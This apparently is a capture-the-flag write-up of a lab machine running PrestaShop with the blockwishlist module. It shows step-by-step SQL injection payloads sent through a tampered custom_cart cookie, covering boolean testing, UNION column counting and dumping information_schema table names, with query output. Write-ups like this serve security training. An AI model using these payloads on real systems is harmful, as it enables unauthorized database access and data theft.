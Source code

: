 
So so far we have a lot of information, and a lot of noise but the things potentially worth investigating are :   
- PrestaShop 1.7
- PrestaShop blockwishlist 2.0.1 

# Blockwishlist sqli:
[https://www.cybersecurity-help.cz/vdb/SB2022072609](https://www.cybersecurity-help.cz/vdb/SB2022072609)  
[https://github.com/PrestaShop/blockwishlist/commit/b3ec4b85af5fd73f74d55390b226d221298ca084](https://github.com/PrestaShop/blockwishlist/commit/b3ec4b85af5fd73f74d55390b226d221298ca084)

According the the PR this was fixed in 2.1.1 so this might still be it: 
```bash
searchsploit blockwish
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
Prestashop blockwishlist module 2.1.0 - SQLi                             | php/webapps/51001.py
------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Making an account and starting to poke around with the wishlist, the actual cart in this implementation is sent to the checkout.shared.htb page through the `custom_cart` cookie, which we can tamper with.  
Once url decoded the cookie looks like this: 
```bash
{"7DA8SKYP":"1"}             # Normal cookie the id shows up in the checkout page under product
{"asdf":"1"}                 # If we set a value that we know to be false, we see Not Found under product 
{"asdf' or 1=1 -- -":"1"}    # we know asdf returns false so if injection is possible, this would be true, and it is (product 53GG2EF8)
```

Fit the query to the number of fields
```sql
{"asdf' union select 1 -- -":"1"}     # False 
{"asdf' union select 1,2 -- -":"1"}     # False
{"asdf' union select 1,2,3 -- -":"1"}     # True as there are 3 fields
{"asdf' union select 1,2,3,4 -- -":"1"}     # False
```

Use the product id field (2) to concatenate and dump all table names from the information schema
```sql
{"asdf' union select 1,(select group_concat(table_name separator '|') from information_schema.tables),3 -- -":"1"}
```
```bash
ALL_PLUGINS|APPLICABLE_ROLES|CHARACTER_SETS|CHECK_CONSTRAINTS|COLLATIONS|COLLATION_CHARACTER_SET_APPLICABILITY|COLUMNS|COLUMN_PRIVILEGES|ENABLED_ROLES|ENGINES|EVENTS|FILES|GLOBAL_STATUS|GLOBAL_VARIABLES|KEYWORDS|KEY_CACHES|KEY_COLUMN_USAGE|OPTIMIZER_TRACE|PARAMETERS|PARTITIONS|PLUGINS|PROCESSLIST|PROFILING|REFERENTIAL_CONSTRAINTS|ROUTINES|SCHEMATA|SCHEMA_PRIVILEGES|SESSION_STATUS|SESSION_VARIABLES|STATISTICS|SQL_FUNCTIONS|SYSTEM_VARIABLES|TABLES|TABLESPACES|TABLE_CONSTRAINTS|TABLE_PRIVILEGES|TRIGGERS|USER_PRIVILEGES|VIEWS|CLIENT_STATISTICS|INDEX_STATISTICS|INNODB_SYS_DATAFILES|GEOMETRY_COLUMNS|INNODB_SYS_TABLESTATS|SPATIAL_REF_SYS|INNODB_BUFFER_PAGE|INNODB_TRX|INNODB_CMP_PER_INDEX|INNODB_METRICS|INNODB_LOCK_WAITS|INNODB_CMP|THREAD_POOL_WAITS|INNODB_CMP_RESET|THREAD_POOL_QUEUES|TABLE_STATISTICS|INNODB_SYS_FIELDS|INNODB_BUFFER_PAGE_LRU|INNODB_LOCKS|INNODB_FT_INDEX_TABLE|INNODB_CMPMEM|THREAD_POOL_GROUPS|INNODB_CMP_PER_INDEX_RESET|INNODB_SYS_FOREIGN_COLS|INNODB_FT_INDEX_CACHE|INNODB_BUFFER_POOL_STATS|INNODB_FT_BEING_DELETED|INNODB_SYS_FOREIGN|INNODB_CMPMEM_RESET|INNODB_FT_DEFAULT_STOPWORD|INNODB_SYS_TABLES|INNODB_SYS_COLUMNS|INNODB_FT_CONFIG|USER_STATISTICS|INNODB_SYS_TABLESPACES|INNODB_SYS_VIRTUAL|INNODB_SYS_INDEXES|INNODB_SYS_SEMAPHORE_WAITS|INNODB_MUTEXES|user_variables|INNODB_TABLESPACES_ENCRYPTION|INNODB_FT_DELETED|THREAD_POOL_STATS|user|product
```